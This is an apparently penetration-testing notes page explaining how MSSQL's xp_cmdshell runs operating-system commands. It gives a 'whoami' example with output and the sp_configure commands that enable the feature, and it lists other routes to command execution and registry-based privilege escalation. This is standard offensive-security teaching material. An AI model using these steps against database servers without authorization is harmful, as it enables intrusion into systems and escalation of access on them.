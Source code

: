 `MSSQL` has a [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/database-engine-extended-stored-procedures-programming?view=sql-server-ver15) called [xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allow us to execute system commands using SQL.

* `xp_cmdshell` is a powerful feature and disabled by default. `xp_cmdshell` can be enabled and disabled by using the [Policy-Based Management](https://docs.microsoft.com/en-us/sql/relational-databases/security/surface-area-configuration) or by executing [sp\_configure](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option)
* The Windows process spawned by `xp_cmdshell` has the same security rights as the SQL Server service account
* `xp_cmdshell` operates synchronously. Control is not returned to the caller until the command-shell command is completed

To execute commands using SQL syntax on MSSQL, use:

#### <mark style="color:green;">**XP\_CMDSHELL**</mark>

```cmd-session
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:

```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

{% hint style="danger" %}
There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry.&#x20;
